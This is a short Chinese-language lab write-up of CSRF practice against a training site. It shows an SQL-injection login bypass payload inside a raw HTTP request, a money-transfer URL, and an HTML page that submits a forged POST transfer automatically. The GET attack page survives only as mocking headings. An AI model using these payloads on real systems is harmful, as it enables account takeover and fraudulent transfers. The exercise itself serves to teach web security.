





简单CSRF练习
===================================

##### 1、管理员登录

使用万能密码登录
```
POST /check_login.php HTTP/1.1
Host: edu.xss.tv
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: Hm_lvt_e5efb7047a682ed4bd398034a6316c5e=1506737021,1508073916; AJSTAT_ok_times=4; PHPSESSID=g776ld3s28gpbrdsfhn439ect4; AJSTAT_ok_pages=5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

user=admin' or 1=1 #&pwd=password
```


#### 2、GET csrf

转账url为:
```
http://edu.xss.tv/payload/xss/csrf1.php?name=yyy&money=400
```


构造攻击页面:

```html
get.html

<h2>哈哈哈大傻逼</h2>
<h3>打开就转钱给我了</h3>
 
```



#### 3、POST CSRF

抓包分析:
```
POST /payload/xss/csrf2.php HTTP/1.1
Host: edu.xss.tv
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://edu.xss.tv/payload/xss/csrf2.php
Cookie: Hm_lvt_e5efb7047a682ed4bd398034a6316c5e=1506737021,1508073916; AJSTAT_ok_times=4; PHPSESSID=g776ld3s28gpbrdsfhn439ect4; AJSTAT_ok_pages=28
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

name=admin0&money=100
```



构造攻击页面:
```html
post.html

<html>
    <form action="http://edu.xss.tv/payload/xss/csrf2.php" method="post">
        <input type="name" name="name" value="admin0" />
        <input type="money" name="money" value="500" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</html>

```

转账成功:
